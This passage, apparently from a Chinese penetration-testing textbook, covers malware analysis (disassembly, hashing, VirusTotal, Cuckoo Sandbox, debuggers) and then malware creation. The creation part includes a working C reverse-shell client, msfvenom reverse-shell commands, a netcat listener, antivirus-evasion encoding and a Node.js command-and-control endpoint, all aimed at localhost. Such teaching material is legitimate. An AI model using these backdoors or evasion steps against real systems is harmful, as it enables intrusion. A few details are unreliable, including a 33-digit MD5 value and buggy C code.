某些寄存器具有特定功能。例如，第二行代码中的 mov 操作 mov esi, 0x4050000 使用了一个称为 esi 的寄存器。这是一种通用寄存器，通常用于存储内存地址。具体来说，它存储源地址。edi 寄存器存储目标地址。第三行代码显示了一个 lea 操作，它是 load effective address 的缩写。这允许 edi 寄存器包含计算结果，该结果显示在方括号中。该行中对 esi 的引用返回该寄存器的内容，即一个内存地址。十六进制值 0x4000 从此内存地址中减去，结果加载到 edi 寄存器中。该寄存器中的值被压入栈。将值压入栈的一个原因是为函数调用做准备。这通常使用 call 助记符完成，


虽然你可以使用某个版本的跳转来实现。跳转用于将执行传递到不同的内存位置。

跳转有多个版本。其中一些旨在跟在比较（cmp）之后，例如当寄存器值非零时用于跳转。当你查看反汇编代码时，还会看到许多算术运算，包括 add 和 sub（减法）。你还会看到 inc，它等同于加一。区别在于，你不需要经过多个步骤来检索值、将其加一、存储结果，然后再将其移回原来的寄存器。

如果不想运行程序，通过跟随代码进行静态分析是耗时的。当你有一个潜在的恶意软件样本时，运行该程序是危险的。你可能会损坏系统上的文件，或者可能会感染网络上的其他系统。如前所述，以这种方式使用静态分析既耗时，又需要深入理解不同操作码的行为。

## 属性

除了查看程序文件内部，我们还可以查看与其关联的一些元数据。例如，这可以包括编译日期和时间。某些数据不仅特定于可执行文件，而且在所有文件中都是通用的。获取文件属性可以显示创建、访问和修改的日期和时间。这可能会提供一些关于恶意软件的信息，当然也包括你系统上发生了什么。当你在可执行文件上打开属性时，你会得到一个名为 Details 的选项卡。对于可执行文件，你会获得产品名称和版权等信息。你可以在图 8.9 中看到这一点。

### 图 8.9 可执行文件的属性


在这种情况下，没有任何信息，因为没有为编译器指定要写入文件的内容。如果你查看任何系统文件，例如，你会看到版权持有者是 Microsoft Corporation。你还可能会得到关于程序是什么的信息。这并不是说恶意软件作者会把自己的名字放进去。事实上，你在这里可能会发现虚假信息。不过，软件供应商可以做的一件事是对可执行文件进行签名。这意味着添加加密签名。大型供应商，尤其是 Microsoft，会对可执行文件进行签名。即使恶意软件作者在元数据中插入表明文件来自 Microsoft 的信息，该可执行文件也不会有正确的加密签名。你应该能够看到该签名不是使用合法的 Microsoft 证书制作的。

## VirusTotal

在不执行程序的情况下进行静态分析的另一种方法是获取样本的哈希值。可以使用不同的哈希算法。一种非常常见的算法是消息摘要 5（MD5）。这是一种存在数十年的哈希算法。它众所周知，虽然在某些应用中它不是最佳方法，因为它可能容易发生碰撞（即两个不同的数据集生成相同值的情况），但通常不认为使用文件哈希进行恶意软件分析属于这类应用。在下面的清单中，你可以看到在 Windows 系统上运行哈希算法以获取 MD5 值。

## 获取 MD5 哈希值

```
C:\Users\kilroy\Documents
λ md5sum.exe bogus.exe
846693bf60c4c678e9727cfade75ebce3 *bogus.exe
C:\Users\kilroy\Documents
```

当然，你也可以使用其他哈希算法，例如安全哈希算法（SHA）。SHA-1 生成的哈希比 MD5 更长，这意味着哈希可以生成的空间要大得多。SHA-1 正在逐渐被 SHA-256 取代，后者比 SHA-1 大得多。碰撞的可能性比 SHA-1 小得多，当然也比 MD5 小。一旦你有了哈希值，就可以用它来检查恶意软件数据库，这些数据库通常存储哈希值以供比对。防病毒程序通常会将哈希值与已知的恶意软件进行匹配。

有一个网站你可以去，它会将恶意软件与多个防病毒程序进行比对。VirusTotal 目前针对 60 个防病毒程序进行检查。如果你有一个文件，可以上传它，VirusTotal 将通过获取哈希值并将其与这 60 个防病毒程序进行比对来检查文件。图 8.10 显示了测试我垃圾邮件文件夹中的一个 PDF 的结果。这似乎是一次网络钓鱼尝试。

### 图 8.10 VirusTotal 结果


图 8.10 显示了不同反恶意软件程序如何识别该样本。在 60 个防病毒程序中，有 9 个将此样本识别为恶意软件。其余的全部将其识别为干净。这只告诉我们防病毒程序的看法。它没有给我们任何细节。如果我们进入 Details 选项卡，我们将得到不同加密算法的哈希值。图 8.11 显示了文件的其他属性，包括多个哈希、文件类型以及该文件首次提交到 VirusTotal 的时间。这显然是一个相当近期的样本，因为它首次提交是在本次提交前几周。

### 图 8.11 VirusTotal 详细信息


除了这些数据，Details 选项卡还包含关于 PDF 文件常见滥用属性及其在所提供样本中出现次数的详细信息。它还提供 ExifFile 元数据的详细信息。借助 VirusTotal，你可以利用他人已完成的分析，这可以帮助你节省大量工作。然而，这也意味着你无法亲自进行分析的乐趣。不过，由于这些信息是公开的，这意味着它们是准确的，因为已经过其他人的审核。

## 动态分析

静态分析的目的是不运行程序，而动态分析则是通过运行程序来查看它会做什么。有多种方法可以做到这一点，而不会通过感染恶意软件来影响你自己的系统。当然，这就是动态分析所带来的挑战所在。你想在不实际感染你关心的系统的情况下查看其行为。你也不希望将其放入仍有网络访问权限并能够感染你关心网络上其他系统的沙盒中。然而，你需要让恶意软件相信它运行在真实系统上，而不是在沙盒中。

恶意软件有多种方法来确定它是否在 VM 内运行。首先，它可以检查 VMware 提供的任何驱动程序，因为 VMware 是常见的虚拟机监控程序。它还会检查某些内存数据结构的位置。它还可以检查 MAC 地址，以确定供应商 ID（前三个字节）是否与 VM 提供商匹配。如果恶意软件判断自己在 VM 内运行，它可能会选择不部署有效载荷，使其失活，这意味着你无法看到它会做什么。

第一种方法就是在 VM 内运行恶意软件。这有助于完全控制计算机，包括在网络接口上设置控制，防止其到达你不希望它去的任何地方。另外，使用 VM，你可以利用快照将系统恢复到已知的干净状态。这意味着你可以在干净系统上反复运行恶意软件以继续观察其行为。它还使你能够比较快照，从而继续查看干净系统和运行恶意软件后的系统之间的差异。此外，你可以对暂停的 VM 的内存进行分析。

## Cuckoo 沙盒

不过，使用你自己的 VM 设置可能需要大量工作。你需要设置它，安装操作系统，然后在运行恶意软件之前对其进行快照。之后，你需要比较系统状态。有更简单的方法来完成此操作。一种是使用一个自动化系统，它会在 VM 内运行恶意软件，然后为你进行比较。如果能在最后得到一份报告，那将是理想的。好吧，如果你曾希望有这样的东西，你可能会很高兴地知道，它确实可用。


Cuckoo Sandbox 是一个自动恶意软件分析工具。它负责启动虚拟机 (VM)、将恶意软件注入其中，然后对文件、注册表、网络连接、进程操作和内存进行一些分析。Cuckoo Sandbox 是免费可用的软件，使用 Python 来管理虚拟机和报告。你需要拥有一个 Windows 虚拟机和一个 Cuckoo Sandbox 可以控制的 Hypervisor（虚拟机监控程序）。这些不一定是免费的。当然，Windows 虚拟机会花费钱，不过你通常可以使用免费可用的 Hypervisor，如 KVM（基于内核的虚拟机）。

不过，你不必使用自己的 Cuckoo Sandbox 安装。有一些可在线使用的服务。其中之一是 malwr.com；它已经宕机一段时间，但预计会恢复，不过目前还没有具体时间表。你可以查看 Lenny Zeltser 的博客，获取可用沙箱列表来测试你的恶意软件。就我们的目的而言，我们将针对另一个由 Hieki Pikker 控制的 Cuckoo Sandbox 实现进行运行。你上传样本，Cuckoo Sandbox 会针对其运行哈希，这些哈希可用于检查数据库以查看哈希是否已知。你可以完全不运行样本就完成此操作。

本例中的样本是我们之前研究过的一个。它完全是良性的，不过确实会在磁盘上留下一个文件。它只是一个简单的单行文本文件，因此一点也不可疑。然而，我们仍然可以使用 Cuckoo Sandbox 执行该程序，并向我们报告其行为。图 8.12 显示了上传样本的详细信息。它显示了文件类型：可移植可执行文件，32 位。它还显示了不同算法的不同哈希值，并且还有一个 Yara 条目，Yara 是一种用于描述恶意软件文件的语言。

## 图 8.12 Cuckoo Sandbox 详情


在运行我们提供的样本之前，我们可以对其运行环境做出一些选择。你可以在图 8.13 中看到这些选项。这表明我们可以确定希望环境有多受限，包括我们希望为样本提供的网络访问。在某些情况下，你可能不想提供完全的 Internet 访问，因为这可能会失控。你可能会发现需要限制访问。然而，如果无法联网，一些恶意软件可能无法完全部署。你可能还需要在沙箱关闭前提供更长的超时时间。你可以确定希望在沙箱超时前等待多久。Cuckoo Sandbox 提供配置运行的功能，但你不必这样做。

## 图 8.13 Cuckoo Sandbox 选项


我们将使用默认设置，通过沙箱运行我们的样本。在运行过程中，状态会定期更新。当恶意软件样本执行时，Cuckoo Sandbox 会生成我们可以查看的日志。你可以查看提交样本的以下日志列表。日志提供了 Cuckoo Sandbox 进行的所有监控和管理的详细信息。

## Cuckoo Sandbox 日志

```
2018-10-29 02:54:09,015 [analyzer] DEBUG: Starting analyzer from: C:\tmp3oj4f_
2018-10-29 02:54:09,015 [analyzer] DEBUG: Pipe server name:
\\?\PIPE\kSExGJIXHfBEHDFEKHEYNDsVLRQZEvM
2018-10-29 02:54:09,015 [analyzer] DEBUG: Log pipe server name:
\\?\PIPE\zRhqTZBEUJoPjNicpHbDUDoob0oFI
2018-10-29 02:54:09,280 [analyzer] DEBUG: Started auxiliary module DbgView
2018-10-29 02:54:09,983 [analyzer] DEBUG: Started auxiliary module Disguise
2018-10-29 02:54:10,171 [analyzer] DEBUG: Loaded monitor into process with pid 496
2018-10-29 02:54:10,171 [analyzer] DEBUG: Started auxiliary module
DumpTLSAccessSecrets
2018-10-29 02:54:10,171 [analyzer] DEBUG: Started auxiliary module Human
2018-10-29 02:54:10,171 [analyzer] DEBUG: Started auxiliary module
InstallCertificate
2018-10-29 02:54:10,171 [analyzer] DEBUG: Started auxiliary module Reboot
2018-10-29 02:54:10,203 [analyzer] DEBUG: Started auxiliary module RecentFiles
2018-10-29 02:54:10,217 [analyzer] DEBUG: Started auxiliary module Screenshots
2018-10-29 02:54:10,217 [analyzer] DEBUG: Started auxiliary module LoadZeroMon
2018-10-29 02:54:10,265 [lib.api.process] INFO: Successfully executed process
from path u'C:\\Users\\ADMINI~1\\AppData\\Local\\Temp\\bagus.exe' with arguments
'' and pid 2268
2018-10-29 02:54:10,437 [analyzer] DEBUG: Loaded monitor into process with pid
2268
2018-10-29 02:54:10,437 [analyzer] INFO: Added new file to list with pid 2268
and path C:\Users\Administrator\AppData\Local\Temp\file.txt
2018-10-29 02:54:10,608 [lib.api.process] INFO: Memory dump of process with pid
2268 completed
2018-10-29 02:54:11,312 [analyzer] INFO: Process with pid 2268 has terminated
2018-10-29 02:54:11,328 [analyzer] INFO: Process list is empty, terminating
analysis.
2018-10-29 02:54:12,328 [analyzer] INFO: Analysis completed.
```

Cuckoo Sandbox 在运行期间会进行屏幕截图。在图 8.14 中，你可以看到关于运行的信息，其中包括运行样本时拍摄的屏幕截图的缩略图。此外，我们还会获取运行统计信息。这包括系统运行样本所花费的时间。我们还会获取日志链接，其中一些我们之前查看过。这里是我们获取系统发生情况详细信息的地方。关于运行的详细信息为我们提供了一些信息，屏幕截图可以提供更多详细信息，而日志则提供了细粒度信息。在分析器日志中，显示样本在文件系统中创建了一个文件。我们会获得该文件的路径和文件名。如果样本有网络活动，我们也能看到。

## 图 8.14 Cuckoo Sandbox 结果


使用 Cuckoo Sandbox 可以将运行恶意软件的风险从我们的系统和网络中移除。然而，它也同时夺走了我们对运行恶意软件的控制。在某些情况下，你可能希望能够准确查看恶意软件正在做什么，并且在发生时能够查看代码。

## 调试

使用调试器可以完全控制样本的运行。当然，这也将可能随恶意软件而来的问题置于你手中。不过，借助调试器提供的控制，你有可能跳过任何非常糟糕的操作。在深入讨论之前，让我们先谈谈什么是调试器。调试器让开发者能够控制程序的运行，这意味着开发者可以逐行查看程序。在集成开发环境 (IDE) 中，集成的调试器通常会让我们能够逐行和逐个函数地处理源代码。不过，在谈论恶意软件分析时，我们没有这个奢侈。如果我们拥有源代码，就不需要做任何这些了。与其逐行处理源代码，不如我们要逐个操作码地处理，因为我们查看的是反汇编代码而不是源代码。

有很多可用的调试器。调试器和反汇编器之王是 IDA Pro。你可以使用 IDA Pro 在多个处理器架构和操作系统上工作。你可能不需要 IDA Pro 带来的所有功能，因此你可以使用 OllyDbg、Immunity 调试器或 Microsoft 提供的 Windows 调试器。我们将先研究使用 IDA 的社区版而不是 Pro 版，因为它拥有我们所需的一切。

务必牢记 CPU 架构很重要。例如，如果你尝试将 64 位程序加载到 32 位调试器中，将无法运行。32 位调试器根本不知道如何处理 64 位程序，因为调试器本身作为 32 位程序运行。确保将程序中的 CPU 架构与支持该 CPU 架构的调试器匹配。这是使用像 IDA Pro 这样的商业工具的原因之一。

首先，我们需要将可执行文件加载到 IDA Free 中。图 8.15 显示了加载文件时可以选择的一组选项。这些选项由 IDA 选择，但你可以做一些调整。例如，IDA 确定该文件是 64 位可移植可执行二进制文件。如果你以某种方式知道它不是，并且 IDA 做出了错误的判断，你可以更改它。IDA 不太可能不知道，因为所有这些都来自文件中的元数据。但是，如果你真的想做与 IDA 选择不同的事情，可以进行更改。

## 图 8.15 新 IDA 会话


IDA 会加载文件，然后以多种方式向你展示反汇编结果。其中一种方式基本上是图形视图。图形视图显示入口函数，后跟程序可采取的路径。这提供了程序的可视路径。在我们的情况中，这是一个非常简单且小巧的程序。如果你拥有多个执行路径的大型程序，这种视图会更加有益。你可以通过直观跟踪来测试不同的执行路径，而不是试图记住你在做什么。图 8.16 显示了反汇编程序初始视图的一部分。

## 图 8.16 IDA 视图


仅供比较，我们将查看 OllyDbg，它是一个免费调试器。将程序加载到 OllyDbg 后，你会看到如图 8.17 所示的视图。OllyDbg 直奔主题。你将看到反汇编代码和相应的十六进制转储，展示字节级别的样子。你还可以在右侧看到寄存器及其值的视图。这些值会随程序运行而变化。如果你一次一步地单步执行程序，会更容易看到这一点。这能让你更好地了解程序的运行方式以及每个操作在做什么。

## 图 8.17 OllyDbg 视图


如果直接启动程序，它会运行至结束，你什么也看不到。因此，你需要设置一个断点。断点会导致执行在你希望的程序位置停止。如果你想看到发生的一切，就需要在程序入口点处停止。为此，你需要定位程序的入口点。一种简单的方法是使用调用栈。程序运行时，每个函数都会被添加到调用栈中，因此你可以通过函数调用来跟踪程序。当你打开调用栈窗口时，如图 8.18 所示，调用栈的最顶部条目就是入口点。它是被调用的第一个函数。要获取调用栈，你确实需要运行一次程序。一旦获得入口点所在的内存地址，你可以右键单击操作并从上下文菜单中切换断点来设置断点。

一旦断点设置好，你就可以启动程序运行。一启动，程序就会因断点而停止。要使其继续运行，你可以逐行单步执行程序，或者让程序继续运行，直到下一个断点或程序结束。单步执行程序有多种方式。如果你选择“步入”，将跟踪所有函数的执行，包括属于 C 标准库的库函数。

这意味着你会在内存中跳来跳去。你也可以选择“步过”，这意味着调用函数但停留在你当前所在的内存区域。

## 图 8.18 调用栈


查看 Linux 程序时，你可能会看到显示 int 0x80 的语句，它调用中断向量 128（0x80）。这表明你正在进行系统调用。系统调用是指你向内核/操作系统发出请求。在 Windows 中，你仍然可以这样做，但更常见的是调用封装系统调用的库函数。这些应用程序编程接口（API）使代码更加标准化，可能比直接进行系统调用的代码更优化。

调用库函数是一个相当简单的过程。你使用 call 指令，传递你要调用的函数的内存地址。在此过程中，就像使用函数添加栈帧时一样，你需要调整栈指针。在以下代码清单中，你可以看到一段调用了两次库函数的汇编代码。就在调用运行时库函数 iob__lb0 之前，栈指针和指令指针会被保存，以准备跳转到新函数。

## 调用库函数

```
|        0x004012e0    sub esp, 0x1c
|        0x004012e3    mov dword [esp], 1
|        0x004012ea    call dword [sym.imp.msvcrt.dll__set_app_type];
0x408198
|        0x004012f0    call sub.msvcrt.dll_iob_lb0
|        0x004012f5    lea esi, [esi]
|        0x004012f9    lea edi, [edi]
|        0x00401300    _WinMainCRTStartup:
|        0x00401300    sub esp, 0x1c
|        0x00401303    mov dword [esp], 2
|        0x0040130a    call dword [sym.imp.msvcrt.dll__set_app_type];
0x408198
| 0x00401310 call sub.msvcrt.dll_iob_lb0
| 0x00401315 lea esi, [esi]
| 0x00401319 lea edi, [edi]
| 0x00401320 (fcn) sym.atexit 6
```

库函数使跟踪程序变得更容易，因为它们是通过名称调用的；由于库有名称且函数有标签，处理器知道要跳转到哪个内存空间以及该空间内的哪个位置。标签即函数名称，因此你至少可以对程序的一部分有所了解，而无需步入函数来观察每个操作。

## 创建恶意软件

有很多地方可以获取可用的恶意软件样本。在测试时使用他人恶意软件的问题在于，你可能不完全了解恶意软件所做的一切。此外，恶意软件可能试图与他人控制的系统通信。在与客户进行测试时，你可能需要使用恶意软件，或者至少是灰色软件。请记住，你必须遵守道德规范，这意味着你不能使用可能对系统造成损害的实际恶意软件。你的目标可能是未经发现地维持对系统的访问。它也可能是为了查看是否可以将恶意软件注入网络和系统而不被发现。

如果需要从头开始，你可以采取几种方法。第一种是直接自己编写。这需要一定的编程能力。第二种通常更容易，即使用 Metasploit，因为它已经有许多现成的模块，并且有一种方法可以生成独立的可执行文件。

## 自己编写

如果你有一些编程经验，或者至少有意愿跳入其中尝试学习，你可以试着创建自己的恶意软件。做到这一点的一个非常简单的方法就是创建一个能够执行你所需任何功能的程序。例如，你可以编写一个客户端，它可以连接回任何处理程序或基于 netcat 的监听器。这个客户端可以让你远程访问系统，这将很有用。你不需要使用其他攻击来将程序放入系统，但一旦它到达那里，系统可能就处于你的控制之下。

你需要选择一种编程语言来编写你的恶意软件。有很多选择。Python 目前是一种流行的编程语言，并且有足够的库来支持你几乎想要做的任何事情。一般来说，Python 的问题在于它要求运行脚本的系统上安装了 Python 解释器。你会发现大多数系统没有安装 Python，虽然你可能能够安装 Python，但这可能需要大量工作。像 C 这样的语言经过了时间的检验，并且网上有大量可用的源代码，你可以提取片段来拼凑出一个可运行的程序。

有一些 Python 编译器可以获取 Python 脚本并为你生成可执行文件。如果你真的有兴趣编写 Python，你可能可以使用这个选项。

C 与 Python 不同之处在于 C 是编译型语言。在拥有程序之前，你需要获取源代码并通过编译器运行它以得到可运行的程序。最好的做法是在与目标相同的平台上编译程序。如果你打算将此程序安装在 Windows 32 位系统上，在 Windows 32 位系统上编译它会最简单。有可用的交叉编译器可以在 Linux 系统上生成 Windows 可执行文件，反之亦然。你甚至可以使用合适的库和编译器来管理 32 位与 64 位。

大多数人会使用其中一个 Microsoft 集成开发环境（IDE）来构建软件。对于你可能编写的这类程序来说，这已经是很多软件了，而 Visual Studio 更多是为利用 Windows API 而不是仅仅使用标准 C 库的程序而设计的。还有其他选项。面向 Windows 的最小 GNU 环境（MingW）可以在 Windows 系统上提供编译器。你也可以一劳永逸，获取一整套 GNU 工具集。

以下代码清单是一个小型程序，具有最小功能来启动到系统的连接。在远程系统上，你可以让一个 netcat 监听器等待，或者你可以使用专门设计用来监听这个简单客户端的自定义程序。你也可以使用来自 Metasploit 等框架的处理程序。你在这里看到的程序，在 Linux 系统上编译和测试，将连接到指定的 IP 地址。这是糟糕的编程实践，但将 IP 地址硬编码可以最大限度地减少与你试图渗透的系统之间的交互。处理此类地址的一个好方法是通过命令行接受它或读取配置文件。你不需要用户进行任何交互。因此，你应该预先知道你的 IP 地址，只需将其放在这里，编译程序，然后发送出去即可。

## malclient.c 程序

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <string.h>
#include <unistd.h>

void handleRequest(char *req)
{
    system(req);
}
```


```c
}
int main(int argc, char **argv)
{
    printf("Starting client\n");
    struct sockaddr_in addr;
    struct sockaddr_in srv;
    int sock, data = 0;
    char buffer[256];

    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0)
    {
        printf("Error creating socket! Stopping...\n");
        return -9;
    }

    memset(&srv, 0, sizeof(srv));

    srv.sin_family = AF_INET;
    srv.sin_port = htons(4444);

    if (inet_pton(AF_INET, "127.0.0.1", &srv.sin_addr) <= 0)
    {
        printf("Bad address! Stopping...\n");
        return -8;
    }

    if (connect(sock, (struct sockaddr *)srv, sizeof(srv)) < 0)
    {
        printf("Can't connect! Stopping...\n");
        return -6;
    }

    send(sock, "Connected\n", strlen("Connected\n"), 0);
    data = read(sock, buffer, 255);
    handleRequest(buffer);

    return 0;
}
```

主函数设置将用于连接到我们服务器的套接字。套接字是一种数据结构，最初由加州大学伯克利分校作为伯克利软件发行版（AT&T UNIX 的重新实现）的一部分创建。套接字提供了使用 TCP/IP 和相关协议与其他系统交互所需的数据结构和句柄。套接字设置完成且客户端连接到服务器后，程序向服务器发送一条消息，然后等待响应。程序收到响应后，会将字符串传递给 system() 函数。这会使操作系统运行该字符串，就像在命令行中输入一样。

如前所述，这是一个非常基础的程序。首先，程序结束前只接受一条命令。应该有一个循环，以便继续从服务器端获取输入。此外，system() 调用仅在客户端上运行命令。命令输出不会重定向到服务器。为了获取该输入，程序应该使用类似 popen() 的工具，它会打开一个进程并将字符串作为要运行的进程传递。这还允许你启动任何新进程并捕获输出，以便将其发送回服务器端。

## 使用 Metasploit

或许更简单的方法是使用 Metasploit。这样你就不必担心 CPU 架构、编译器以及对程序进行任何定制并重新编译的问题。Metasploit 允许你使用其任何可用模块，并将该模块打包为可执行文件。出于我们的目的，我们将寻找能够建立反向连接的有效载荷。这个反向连接应该能够连接回我们打开的服务器。


使用反向连接的原因是，它更有可能通过防火墙，因为出站连接通常被信任。入站连接更有可能被阻止，尤其是桌面网络。服务器和基础设施所在的网络可能允许入站连接，但通常仅允许已运行服务所需的端口，这意味着我们无法在该端口上启动服务。

我们需要寻找与我们要为服务器做的事情相匹配的内容。如果我们打算使用 netcat 打开一个端口，就不能使用类似 Meterpreter 有效载荷的东西。那需要 Meterpreter 处理程序，因此我们必须从 Metasploit 运行它。如果我们想将 netcat 用作服务器，可以使用反向 shell 有效载荷。为了找到合适的有效载荷，可以在 msfconsole 内进行搜索。在下面的列表中，你可以看到针对使用 32 位架构的 Windows 有效载荷的搜索。我们要找的是反向 TCP 有效载荷。结果数量很多，因此你只能看到其中一部分。

### 搜索有效载荷

```
msf > search arch:x86 platform:windows reverse_tcp
```

### 匹配的模块

| 名称 | 披露日期 | 等级 | 检查 | 描述 |
| --- | --- | --- | --- | --- |
| payload/windows/dllinject/reverse_tcp | | normal | 否 | 反射性 DLL 注入，反向 TCP 分发程序 |
| payload/windows/dllinject/reverse_tcp_allports | | normal | 否 | 反射性 DLL 注入，反向全端口 TCP 分发程序 |
| payload/windows/dllinject/reverse_tcp_dns | | normal | 否 | 反射性 DLL 注入，反向 TCP 分发程序 (DNS) |
| payload/windows/dllinject/reverse_tcp_rc4 | | normal | 否 | 反射性 DLL 注入，反向 TCP 分发程序 (RC4 阶段加密, Metasm) |
| payload/windows/dllinject/reverse_tcp_rc4_dns | | normal | 否 | 反射性 DLL 注入，反向 TCP 分发程序 (RC4 阶段加密 DNS, Metasm) |
| payload/windows/dllinject/reverse_tcp_uuid | | normal | 否 | 反射性 DLL 注入，带 UUID 支持的反向 TCP 分发程序 |

当我们创建要使用的可执行文件时，需要使用 msfvenom。它会获取用 Ruby 编写的有效载荷脚本之一，并将其编译为我们指定的输出文件。在下面的列表中，你可以看到使用 msfvenom 创建可执行与可链接格式 (ELF) 文件的示例。这是 Linux 系统上的可执行文件格式，就像可移植可执行 (PE) 格式用于 Windows 一样。命令行表明我们正在为 x86（即 32 位系统）创建一个运行 Linux 的可执行文件。有效载荷是在端口 4444 上通过 TCP 连接的反向 shell。我们将要连接的系统位于 127.0.0.1，因为它仅用于连接到本地主机上的 netcat 监听器。输出文件名为 payload，虽然可以叫任何名字。这是我们得到的可执行文件的名称。在输出末尾，你可以看到该文件是一个 32 位 ELF 可执行文件。不过，要在 Linux 系统上运行它，需要设置可执行位。

### 使用 msfvenom

```
kilroy:~$ msfvenom -a x86 -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 \
lport=4444 -f elf --platform=linux -o payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: payload
```

### 使用 msfvenom（续）

```
kilroy:~$ chmod +x payload
kilroy:~$ ./payload
kilroy:~$ file payload
payload: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically
linked, no section header
```

在运行我们以可执行形式持有的有效载荷之前，需要让 netcat 监听器在运行。在下面的代码列表中，你可以看到在 netcat 上启动有效载荷将要连接的端口时的情况。你会注意到，没有任何迹象表明 netcat 正在监听或已收到连接。由于我当时正对着两端，我知道连接何时建立，因此能够向运行中的有效载荷程序发送回一条命令。这是使用类似 Meterpreter shell 和监听器的一个优势。当你在那里获得连接时，将能够看到何时收到返回连接。

### netcat 连接

```
kilroy:~$ nc -lp 4444
ls
Desktop
Documents
Downloads
Empire
Music
Pictures
Public
Templates
Videos
client
client.c
dotfiles.tar.gz
fontconfig
go
mail
payload
prltools
request.ps1
sps18-129
src
teamviewer_amd64.deb
```

当然，与任何连接一样，我们拥有运行程序的用户的权限。你上面看到的是普通用户主目录的目录列表。这是有效载荷程序运行所在的目录。不过，你并不局限于此。你可以在文件系统中移动，因为没有任何东西会将你禁锢在当前目录中。

你可能遇到的一件事是入侵检测系统或防病毒程序会拦截你的恶意软件。出于这个原因，Metasploit 可以对生成的程序进行编码。编码会模糊实际的有效载荷，因此在查找恶意软件的程序看来，它可能不像恶意软件。只需将编码器添加到 msfvenom 的命令行参数中即可实现。在下面的列表中，你可以看到向有效载荷添加常见编码器所需的参数。

### 对有效载荷进行编码

```
kilroy:~$ msfvenom -a x86 -p linux/x86/shell_reverse_tcp lhost=127.0.0.1
lport=4444 -f elf --platform=linux -e x86/shikata_ga_nai -i 5 -o payload
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai succeeded with size 122 (iteration=1)
x86/shikata_ga_nai succeeded with size 149 (iteration=2)
x86/shikata_ga_nai succeeded with size 176 (iteration=3)
x86/shikata_ga_nai succeeded with size 203 (iteration=4)
x86/shikata_ga_nai chosen with final size 203
Payload size: 203 bytes
Final size of elf file: 287 bytes
Saved as: payload
```

你可以指定希望将生成的有效载荷通过编码器传递的迭代次数。没有特定的次数比其他次数更有效。通过编码器传递的次数越多，可执行文件中包含的有效载荷就越模糊。当然，运行一次也会模糊有效载荷。但是，如果有人碰巧知道通过编码器传递一两次的有效载荷长什么样，那么它可能会被拦截的可能性存在。目标是不被拦截，并让你的有效载荷运行。

### 恶意软件基础设施

你可能已经注意到，当我们将程序放置到目标系统上时，通信流的另一端允许访问该目标系统。如果我们只关心造成恶意行为，那并不重要。我们的目标是超越初始感染，保持对系统的访问。通常，你会看到复杂的恶意软件具有基础设施。我们设置了一台服务器，客户端软件连接到该服务器以便我们可以发出命令。这是你在野外可能看到的非常简化版本。你可能看到过关于 Mirai 或 Kelihos 僵尸网络被打击的新闻文章


down. 僵尸网络拥有命令和控制基础设施（C2 或 C&C），允许攻击者向机器人发送命令，机器人是僵尸网络中的端点。图 8.19 展示了僵尸网络可能的逻辑表示。

图 8.19 命令和控制基础设施


这本质上是一个单层 C&C 网络。大型僵尸网络可能需要多层服务器来控制数百万台设备。这可能意味着顶层有一台设备，管理若干其他设备。这些设备中的每一台可能再管理下方的若干设备。攻击者与顶层设备交互，向端点发送命令，指示它们做什么。例如，这可能是设置网络基础设施来销售药品。它也可能是发送未经请求的商业电子邮件（UCE，俗称垃圾邮件）或发起分布式拒绝服务攻击。

可用于管理此类基础设施的协议有几种。有时，你可能会看到使用 Internet Relay Chat (IRC) 协议向端点发送命令。这是通过向先前识别的 IRC 频道发布操作来完成的。端点将连接到 IRC 服务器并检查频道中的命令。另一种方法是创建基于 Web 的基础设施，以便端点连接到先前识别的 Web 服务器，检索包含端点可执行命令的页面。不过，这并不意味着你必须搭建 Apache、Nginx 或 IIS 服务器仅用于提供页面。有些技术可以让这变得容易得多。

Node.js 是一种非常快速搭建 Web 服务器的方法，操作使用 JavaScript 编写。Node.js 拥有多个可用于使此过程更轻松的库。框架和库处理所有底层协议交互，你只需编写一些高级代码。你可以在 Node.js 中实现 RESTful 服务。REST 是表述性状态传输（Representational State Transfer），增加了 HTTP 不支持的管理应用程序状态的功能。REST 服务使用“端点”向服务器传递消息并获取响应。端点只是一个 URL，告诉服务器正在调用什么函数或一组函数。

在 Node.js 之上，你可以使用 Express 库来管理所有应用程序通信。你只需创建对端点调用的响应。只需几行代码即可完成。当然，运行代码需要你安装 Node.js 和必要的库。在以下代码清单中，你可以看到一个 Node.js 程序的基本轮廓，该程序可以处理端点 /check 上的请求。添加其他端点只需添加定义了端点的额外函数即可。

## RESTful 服务的 Node.js 程序

```
var express = require('express');
var app = express();
var fs = require('fs');

app.get('/check', function(req, res) {

})

var server = app.listen(8081, function() {
  var host = server.address().address
  var port = server.address().port
  console.log("Server is listening at %s on %s", host, port)
})
```

你在这里看到的端点实际上不执行任何操作。你可以发送请求，但不会有任何事情发生。要使某事发生，你需要向处理 /check GET 请求的函数添加代码。Express 库也可以处理 POST 请求。要处理 POST，只需使用 app.post 而不是 app.get。你可以使用 JavaScript 对象表示法（JSON）进行响应，它由键或属性及其后面的值组成。这很有帮助，因为键值对最终基本上是自文档化的。你可以通过更改该 app.get 函数来添加 JSON 响应，使其看起来就像这里所示。

## 使用 Express 发送响应

```
app.get('/check', function(req, res) {
  res.json({ action: 'email' })
})
```

当然，如果你需要 C&C 服务，也无需使用 Node.js 来构建基础设施。这是一种相当简单的方法，可以搭建具有类似应用程序功能的 Web 服务器，但你也可以编写可部署到已有 Web 服务器或可安装 Web 服务器上的页面。

## 防病毒解决方案

防病毒软件将成为任何编写恶意软件的人的噩梦。幸运的是，如果恶意软件作者愿意付出一点努力，欺骗防病毒软件并不太难。请记住，防病毒软件通常使用恶意软件的已知属性来识别它。这可能是恶意软件的哈希值。要生成不同的哈希值，恶意软件只需更改一个字节。这个单字节更改将导致完全不同的哈希值。恶意软件可以使用多种技术来绕过防病毒软件。首先，任何新恶意软件都不会被识别，因为在被分析并将签名添加到防病毒软件数据库之前，它没有签名。

